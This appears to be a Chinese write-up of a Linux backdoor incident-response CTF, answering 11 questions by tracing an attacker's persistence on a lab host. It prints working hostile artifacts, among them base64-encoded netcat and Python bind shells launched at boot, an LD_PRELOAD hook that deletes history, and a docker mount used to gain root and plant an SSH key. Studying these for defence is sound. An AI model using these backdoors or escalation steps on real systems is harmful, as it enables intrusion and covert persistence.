


# Linux 后门应急

## 1

> 主机后门用户名称：提交格式如：`flag{backdoor}`

检查 `/etc/passwd` 文件，发现

```plaintext
backdoor:x:0:0:root:/root:/bin/bash
```

即可确定答案

```flag
flag{backdoor}
```

## 2

> 主机排查项中可以发现到 flag{} 内以 i 开头的 flag，如 `flag{ixxxxxxx}`

上传 `linpeas.sh` 进行排查，发现进程信息中有以下记录

```plaintext
root       498  0.0  0.1   6724  3212 ?        S    20:17   0:00 bash
root       505  0.0  0.0   2368  1696 ?        S    20:17   0:00  _ nc -lvp 9999 -c flag{infoFl4g}
```

即可确定答案

```flag
flag{infoFl4g}
```

## 3

> 主机排查发现 9999 端口是通过哪个配置文件如何开机启动的，如 `/etc/crontab` 则填写 `/etc/crontab` 的 md5 ，提交方式示例：`flag{md5}`

检查进程信息

```bash
(remote) user@ip-10-0-10-4:/home/user$ ps -o ppid= -p 498
    1

root         1  0.0  0.4 103896 10056 ?        Ss   20:15   0:01 /sbin/init
```

那么说明，该进程由 `init` 或 `systemd` 启动的

```plaintext title="systemctl status"
● ip-10-0-10-4
    State: degraded
     Jobs: 0 queued
   Failed: 1 units
    Since: Thu 2024-11-14 20:15:19 EST; 40min ago
   CGroup: /
           └─system.slice
             ├─rc-local.service
             │ ├─498 bash
             │ └─14393 nc -lvp 9999 -c flag{infoFl4g}
```

查看服务状态

```bash
(remote) user@ip-10-0-10-4:/home/user$ systemctl status rc-local.service
● rc-local.service - /etc/rc.local Compatibility
   Loaded: loaded (/etc/systemd/system/rc-local.service; enabled; vendor preset: enabled)
  Drop-In: /usr/lib/systemd/system/rc-local.service.d
           └─debian.conf
   Active: active (running) since Thu 2024-11-14 20:17:15 EST; 44min ago
  Process: 489 ExecStart=/etc/rc.d/rc.local start (code=exited, status=0/SUCCESS)
 Main PID: 498 (bash)
    Tasks: 2 (limit: 2356)
   Memory: 8.9M
   CGroup: /system.slice/rc-local.service
           ├─  498 bash
           └─14393 nc -lvp 9999 -c flag{infoFl4g}
```

查看服务文件，找到

```plaintext title="/etc/rc.d/rc.local"
#!/bin/bash

echo d2hpbGUgdHJ1ZTtkbyBub2h1cCBuYyAtbHZwIDk5OTkgLWMgImZsYWd7aW5mb0ZsNGd9IiAyPiYxIDtzbGVlcCAxO2RvbmU7 | base64 -d | nohup bash &
exit 0
```

计算路径哈希

```plaintext
/etc/rc.d/rc.local -> cf8a978fe83579e2e20ec158524d8c06
```

即可确定答案

```flag
flag{cf8a978fe83579e2e20ec158524d8c06}
```

## 4

> 黑客 3s 做了记录所有用户的每次登陆的密码的手段，flag 为黑客记录的登陆密码日志路径 md5, 提交方式示例：`flag{md5(路径)}`

根据排查，定位到文件

```plaintext
(remote) user@ip-10-0-10-4:/tmp$ ls -lh .sshlog
-rw-r--r-- 1 root root 18 Nov 14 20:18 .sshlog
(remote) user@ip-10-0-10-4:/tmp$ cat .sshlog
user :Atmbctfer!
```

计算哈希

```plaintext
/tmp/.sshlog -> 8997d5a1b8dcca5a4be75962250959f7
```

即可确定答案

```flag
flag{8997d5a1b8dcca5a4be75962250959f7}
```

## 5

> 给出使用了 `/bin/bash` 的 RCE 后门进程名称 + 端口号 如进程名称为 sshd，端口号为 22，则 `flag{sshd22}`

对进程列表以及监听端口继续排查，发现

```plaintext
user      1263  0.0  0.4  16084  9604 ?        S    20:17   0:00 python3
```

以及

```plaintext title="netstat -anopt"
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1263/python3         off (0.00/0/0)
```

尝试交互

```bash
(remote) user@ip-10-0-10-4:/tmp$ nc 127.0.0.1 8080
whoami
user
pwd
/home/user
```

即可确定答案

```flag
flag{python38080}
```

## 6

> 找出开机启动的后门服务名称 MD5，提交 `flag{md5(服务名)}`

列出所有设定为开机启动的服务

```bash
(remote) user@ip-10-0-10-4:/etc/rc.d$ systemctl list-unit-files --type=service | grep enabled
apache2.service                        enabled
apparmor.service                       enabled
autovt@.service                        enabled
cloud-config.service                   enabled
cloud-final.service                    enabled
cloud-init-local.service               enabled
cloud-init.service                     enabled
console-setup.service                  enabled
cron.service                           enabled
dbus-org.freedesktop.timesync1.service enabled
docker-compose-app.service             enabled
docker.service                         enabled
getty@.service                         enabled
keyboard-setup.service                 enabled
networking.service                     enabled
rc-local.service                       enabled
rc.local.service                       enabled
rsyslog.service                        enabled
ssh.service                            enabled
sshd.service                           enabled
syslog.service                         enabled
systemd-fsck-root.service              enabled-runtime
systemd-timesyncd.service              enabled
```

查看 `docker-compose-app.service`

```bash
(remote) user@ip-10-0-10-4:/etc/rc.d$ systemctl status docker-compose-app.service
● docker-compose-app.service - Docker Compose Application
   Loaded: loaded (/etc/systemd/system/docker-compose-app.service; enabled; vendor preset: enabled)
   Active: failed (Result: exit-code) since Thu 2024-11-14 20:17:20 EST; 51min ago
  Process: 1382 ExecStart=/bin/bash /usr/lib/python3.7/site-packages/docker/startup.sh (code=exited, status=0/SUCCESS)
  Process: 1397 ExecStop=/usr/bin/docker-compose down (code=exited, status=203/EXEC)
 Main PID: 1382 (code=exited, status=0/SUCCESS)
    Tasks: 1 (limit: 2356)
   Memory: 45.8M
   CGroup: /system.slice/docker-compose-app.service
           └─1263 python3
```

查看具体的文件

```bash
(remote) user@ip-10-0-10-4:/etc/rc.d$ cat /etc/systemd/system/docker-compose-app.service
[Unit]
Description=Docker Compose Application
After=network.target docker.service

[Service]
Type=simple
WorkingDirectory=/home/user/
ExecStart=/bin/bash /usr/lib/python3.7/site-packages/docker/startup.sh
ExecStop=/usr/bin/docker-compose down
Restart=always
User=user
TimeoutStartSec=0
TimeoutStopSec=0
KillMode=process

[Install]
WantedBy=multi-user.target
(remote) user@ip-10-0-10-4:/etc/rc.d$ cat /usr/lib/python3.7/site-packages/docker/startup.sh
#!/bin/bash
/usr/local/bin/docker-compose -f /home/user/nginx/docker-compose.yml up -d

echo 'import base64;v=base64.b64decode("aW1wb3J0IHNvY2tldCwgc3VicHJvY2VzcwoKIyBDcmVhdGUgc29ja2V0IG9iamVjdApzID0gc29ja2V0LnNvY2tldCgpCnMuYmluZCgoJycsIDgwODApKQpzLmxpc3RlbigxKQoKIyBDb250aW51b3VzbHkgYWNjZXB0IGNvbm5lY3Rpb25zCndoaWxlIFRydWU6CiAgICBjb25uLCBhZGRyID0gcy5hY2NlcHQoKQogICAgdHJ5OgogICAgICAgICMgTGF1bmNoIGJhc2ggc2hlbGwgY29ubmVjdGVkIHRvIHRoaXMgc29ja2V0CiAgICAgICAgc3VicHJvY2Vzcy5jYWxsKFsnL2Jpbi9iYXNoJ10sIHN0ZGluPWNvbm4sIHN0ZG91dD1jb25uLCBzdGRlcnI9Y29ubikKICAgIGZpbmFsbHk6CiAgICAgICAgIyBFbnN1cmUgdGhlIGNvbm5lY3Rpb24gaXMgY2xvc2VkIGFmdGVyIHVzZQogICAgICAgIGNvbm4uY2xvc2UoKQo=");exec(v)'|nohup python3 &
```

很明显就是后门文件

计算服务名哈希

```plaintext
docker-compose-app.service -> 5213e47de16522f1dc3f9e9ecc0ab8b0
```

即可确定答案

```flag
flag{5213e47de16522f1dc3f9e9ecc0ab8b0}
```

## 7

> 渗透提权获得 root 目录下的 flag

直接借助 docker 来实现

```bash
(remote) user@ip-10-0-10-4:/etc/rc.d$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
php          fpm       4dcccbe325c2   2 months ago   499MB
nginx        1         39286ab8a5e1   3 months ago   188MB
(remote) user@ip-10-0-10-4:/etc/rc.d$ docker run --rm -v /:/host -it nginx:1 /bin/bash
root@08d963657d93:/# ls -lh /host/root/
total 4.0K
-r-------- 1 root root 16 Sep 24 09:51 flag
root@08d963657d93:/# cat /host/root/flag
flag{ATMB_root}
```

即可得到答案

```flag
flag{ATMB_root}
```

## 8

> 黑客 3s 埋了一个 flag 在权限维持过程中的地方，可以发现 flag{} 括号内的首字母是 c 开头，如 `flag{cxxxxxxx}`

构建一个 ssh 密钥对

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ ssh-keygen -b 4096 -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/randark/.ssh/id_rsa): 20241125_id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in 20241125_id_rsa
Your public key has been saved in 20241125_id_rsa.pub
The key fingerprint is:
SHA256:xOQiuoPMppwUWWAckFg+KvRNwOA9QKVbUa60inZLsV8 randark@kali
The key's randomart image is:
+---[RSA 4096]----+
|*X*+..  .        |
|=o=.+  +         |
| +o*.o. +        |
|..Bo*. o         |
|o+.= .  S        |
|=.o.o            |
|oBo+   E         |
|* +.o .          |
|.o . .           |
+----[SHA256]-----+

┌──(randark ㉿ kali)-[~/tmp]
└─$ ls -lh | grep id_rsa
-rw------- 1 randark randark 3.4K Nov 15 10:17 20241125_id_rsa
-rw-r--r-- 1 randark randark  738 Nov 15 10:17 20241125_id_rsa.pub

┌──(randark ㉿ kali)-[~/tmp]
└─$ base64 20241125_id_rsa.pub
c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQUJBQUFDQVFEelZrbmRTWkhYbHVFSGRYUUZF
T2NDdnZkRXh6dC95NHIxMWtGWUsybUFFM2hTN1RoZDN6SS9WTDFQYzNDRTVIVS9wOWlubm5lUjNL
OW4ydEc3SS9mOUJjZ3IwVzZDZnNSdkpROFpVYmI4QWVRR0ROR2ZjZzIzUk5mYkdXRm1xVUE2dExW
Yy8vYmJXYXM1L2srT2gvSWFCaWpLOUl1dUI4NUFNcXNYWnF0dVU3Q1BJdWpNdERoS1Jtd0hHUnRr
QjJuMkVGMlIvL2wwZFllRGNoZzZaelBTTGxCMjV2Uk51QTQ5bDhlc2ViaXA4YlpWaS8yQ0tKRkg4
N3ArcWJMZ3dxWU5nOXpJZmdaSFNLOVhvMGdFUWVvV1poTG1IaTlqdjZDQklzS2JTb0k0UEpsNjJJ
OWJFdVB3dGhidk5CMytiOUtYRkF1RTBPd3RWNmdGc2REaDFwV0wxVDBGNzhXRlN5MTd2ZVQ5aWt6
b01NOU1Fd0FOb3FRYkdYb3BqNEs1UU1MS0ttc3ZhZm1QblpkZkpKcENrL24vd2FzdmNJbUZ1QlVl
aUhQVXh1UmhoamFsTUJCV2U2SmxuZnYwbTMzNkpCK0pjbXhpajBlL0pQQ3FrWWtTZGZWL21lcTB5
L3B1bmg5ZzdFVVNhRHBYNnFxRENMelM4dncySmkvVWxvOFczQkZ5S0FvTjY5Z2JoYzI4TU1PWjJO
ZGxPakxnNlc1eUJ0TWxHaEZWUnVydGdTU29PQ0dTY3VmTVVKaXR6S1lmZzhUcDZiNldVQXgrb3Bw
ZmY5VEYvZDRvWDkzek9QMWtUcXdJY2xYeitadisrQ1gwNlRyRmF6cCtwL05YU3pDRzRBOCs3cTFj
aUZwMTZXRDIwNzV2WisvR2dkOUlTSWFnZFMwR1hzNWF2MFdxTnc9PSByYW5kYXJrQGthbGkK
```

然后借助 docker 植入主机

```bash
root@08d963657d93:/host/root/.ssh# pwd
/host/root/.ssh
root@08d963657d93:/host/root/.ssh# ls -laih
total 8.0K
2486 drwx------ 2 root root 4.0K Nov 15 01:17 .
 206 drwx------ 6 root root 4.0K Nov 15 01:17 ..
2487 -rw------- 1 root root    0 Nov 15 01:17 authorized_keys
root@08d963657d93:/host/root/.ssh# echo c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQUJBQUFDQVFEelZrbmRTWkhYbHVFSGRYUUZFT2NDdnZkRXh6dC95NHIxMWtGWUsybUFFM2hTN1RoZDN6SS9WTDFQYzNDRTVIVS9wOWlubm5lUjNLOW4ydEc3SS9mOUJjZ3IwVzZDZnNSdkpROFpVYmI4QWVRR0ROR2ZjZzIzUk5mYkdXRm1xVUE2dExWYy8vYmJXYXM1L2srT2gvSWFCaWpLOUl1dUI4NUFNcXNYWnF0dVU3Q1BJdWpNdERoS1Jtd0hHUnRrQjJuMkVGMlIvL2wwZFllRGNoZzZaelBTTGxCMjV2Uk51QTQ5bDhlc2ViaXA4YlpWaS8yQ0tKRkg4N3ArcWJMZ3dxWU5nOXpJZmdaSFNLOVhvMGdFUWVvV1poTG1IaTlqdjZDQklzS2JTb0k0UEpsNjJJOWJFdVB3dGhidk5CMytiOUtYRkF1RTBPd3RWNmdGc2REaDFwV0wxVDBGNzhXRlN5MTd2ZVQ5aWt6b01NOU1Fd0FOb3FRYkdYb3BqNEs1UU1MS0ttc3ZhZm1QblpkZkpKcENrL24vd2FzdmNJbUZ1QlVlaUhQVXh1UmhoamFsTUJCV2U2SmxuZnYwbTMzNkpCK0pjbXhpajBlL0pQQ3FrWWtTZGZWL21lcTB5L3B1bmg5ZzdFVVNhRHBYNnFxRENMelM4dncySmkvVWxvOFczQkZ5S0FvTjY5Z2JoYzI4TU1PWjJOZGxPakxnNlc1eUJ0TWxHaEZWUnVydGdTU29PQ0dTY3VmTVVKaXR6S1lmZzhUcDZiNldVQXgrb3BwZmY5VEYvZDRvWDkzek9QMWtUcXdJY2xYeitadisrQ1gwNlRyRmF6cCtwL05YU3pDRzRBOCs3cTFjaUZwMTZXRDIwNzV2WisvR2dkOUlTSWFnZFMwR1hzNWF2MFdxTnc9PSByYW5kYXJrQGthbGkK | base64 -d > authorized_keys
```

成功拿下 root

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ pwncat-cs -i 20241125_id_rsa root@52.83.4.231 -p 222
[10:20:29] Welcome to pwncat 🐈!
[10:20:34] 52.83.4.231:222: registered new host w/ db
(local) pwncat$ back
(remote) root@ip-10-0-10-4:/root# whoami
root
```

在 `cron` 的日志中，找到以下记录

```bash
(remote) root@ip-10-0-10-4:/home/user# journalctl | grep "cron" | grep flag
Nov 14 20:18:01 ip-10-0-10-4 CRON[1399]: (root) CMD (echo flag{cr0nt4b_IRfind};^Mno crontab for root                                                                                                   )
```

使用 `crontab -e` 也可以找到

即可得到答案

```flag
flag{cr0nt4b_IRfind}
```

## 9

> 黑客 3s 做了一个 root 用户执行 cat 命令就删除文件的操作，请发现删除了什么文件将文件名作为 flag 提交

对 `/root/.bashrc` 进行检查

```plaintext
# ~/.bashrc: executed by bash(1) for non-login shells.

# Note: PS1 and umask are already set in /etc/profile. You should not
# need this unless you want different defaults for root.
# PS1='${debian_chroot:+($debian_chroot)}\h:\w\$'
# umask 022

# You may uncomment the following lines if you want `ls' to be colorized:
# export LS_OPTIONS='--color=auto'
# eval "`dircolors`"
# alias ls='ls $LS_OPTIONS'
# alias ll='ls $LS_OPTIONS -l'
# alias l='ls $LS_OPTIONS -lA'
export LD_PRELOAD=/home/user/Nomal.so
# Some more alias to avoid making mistakes:
# alias rm='rm -i'
# alias cp='cp -i'
# alias mv='mv -i'
```

发现 `/home/user/Nomal.so` 文件劫持了以下操作



```c
system("rm -rf ~/.bash_history>/dev/null 2>&1");
```

即可确定答案

```flag
flag{.bash_history}
```

## 10

> 黑客 3s 很执着清理痕迹，并做了一个持续删痕迹的手段，请发现手段并给出删除的完整黑客删除命令的 md5，如 `flag{md5(rm -f /var/log/ssh.log>/dev/stdout)}`

上一题中就有

计算哈希

```plaintext
rm -rf ~/.bash_history >/dev/null 2>&1 -> b0f531b39d88d4f603fc89bd4dd2c0aa
```

即可得到答案

```flag
flag{b0f531b39d88d4f603fc89bd4dd2c0aa}
```

## 11

> 黑客 3s 设置了一个万能密码后门使得这一个万能密码可以以所有用户身份登陆，也不影响原来密码使用。请发现这个万能密码，提交 flag 格式为 `flag{万能密码}`

结合万能密码，想到攻击者可能篡改了 `pam_unix.so` 文件

```bash
(remote) root@ip-10-0-10-7:/root# find / -name "pam_unix.so"
/usr/lib/x86_64-linux-gnu/security/pam_unix.so
```

反编译分析，定位到 `pam_sm_authenticate` 函数



即可确定答案

```flag
flag{ATMB6666}
```
